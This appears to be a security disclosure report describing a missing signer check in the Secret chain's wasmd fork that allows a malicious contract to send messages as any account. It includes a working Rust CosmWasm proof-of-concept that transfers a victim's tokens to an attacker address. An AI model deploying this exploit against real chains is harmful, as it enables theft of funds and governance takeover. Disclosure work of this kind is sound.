


# P7 in Secret Chain
Chain: Secret ([acknowledgment](../../record/acknowledgments/secret.md))
Impact: Asset Stolen

A missing `signer` validation in secret allows a malicious contract to craft and send arbitrary SDK messages with an attacker-chosen `signer`. An attacker can thus execute messages as if they were signed by any account (including contract accounts), enabling theft of funds, governance takeover (Arbitrarily Pass Upgrade proposals), and even full chain manipulation. This is an implementation bug introduced by a fork of wasmd where an important validation step was omitted.

## PoC
Here give the simplified verification step below, the core is to build a `StargateMsg` that wraps `MsgSend`. Please follow the steps below to do the retest
1. Deploy the `ref1`'s contract in the end of this report
2. Give `victimaddress` enough balance
3. Call the attack contract to transfer the `victimaddres`'s balance without authorization.
4. Check whether the transaction is successful or not.

## Final Result
## Impact

The following transaction results demonstrate the impact clearly.





From the transaction initiated by the **attacker address**, we can see an emitted `MsgSend` event transferring **1 token from `victimaddress` to `attackeraddress`**.

Thus, we prove that an attacker can send any message with any signer. This means that the attacker can transfer anyone's balance and perform any operation. I can think of the following scenarios:

1. transferring funds from any account, even a contract account
2. vote to pass any proposal, even an Upgrade proposal and make the upgraded binary file into malware, thus accomplishing complete control over all nodes. ...


### Ref

[contract-code](../../high-light-findings/secret/PoC_Contract)

The main PoC related codes are as follows:
```rust
//contract.rs
use cosmwasm_std::{
    entry_point, to_binary, Binary, Deps, DepsMut, Env,CosmosMsg, MessageInfo, Response, StdError, StdResult,
};
use crate::msg::{CountResponse, ExecuteMsg, InstantiateMsg, QueryMsg};
use crate::state::{config, config_read, State};
use prost::Message;
use crate::proto::{MsgSend, Coin as ProtoCoin};
use crate::error::ContractError;

#[entry_point]
pub fn instantiate(
    deps: DepsMut,
    _env: Env,
    info: MessageInfo,
    msg: InstantiateMsg,
) -> StdResult<Response> {
    let state = State {
        count: msg.count,
        owner: info.sender.clone(),
    };

    deps.api
        .debug(format!("Contract was initialized by {}", info.sender).as_str());
    config(deps.storage).save(&state)?;

    Ok(Response::default())
}

#[entry_point]
pub fn execute(deps: DepsMut, env: Env, info: MessageInfo, msg: ExecuteMsg) -> StdResult<Response> {
   let msg_send = MsgSend {
        from_address: "victimaddress".to_string(),
        to_address: "attackeraddress".to_string(),
        amount: vec![ProtoCoin {
            denom: "uscrt".to_string(),
            amount: "1".to_string(),
        }],
    };
    let mut buf = Vec::new();
    let _ = msg_send.encode(&mut buf);
    
    let cosmos_msg1 = CosmosMsg::Stargate {
        type_url: "/cosmos.bank.v1beta1.MsgSend".to_string(),
        value: Binary::from(buf),
    };
    
    Ok(Response::new()
        .add_message(cosmos_msg1)
        .add_attribute("action", "send_tokens"))
}
```

```rust
//proto.rs
use prost::Message;
use serde::{Deserialize, Serialize};

#[derive(Clone, PartialEq, Message, Serialize, Deserialize)]
pub struct Coin {
    #[prost(string, tag = "1")]
    pub denom: String,
    #[prost(string, tag = "2")]
    pub amount: String,
}

#[derive(Clone, PartialEq, Message, Serialize, Deserialize)]
pub struct MsgSend {
    #[prost(string, tag = "1")]
    pub from_address: String,
    #[prost(string, tag = "2")]
    pub to_address: String,
    #[prost(message, repeated, tag = "3")]
    pub amount: Vec<Coin>,
}
```
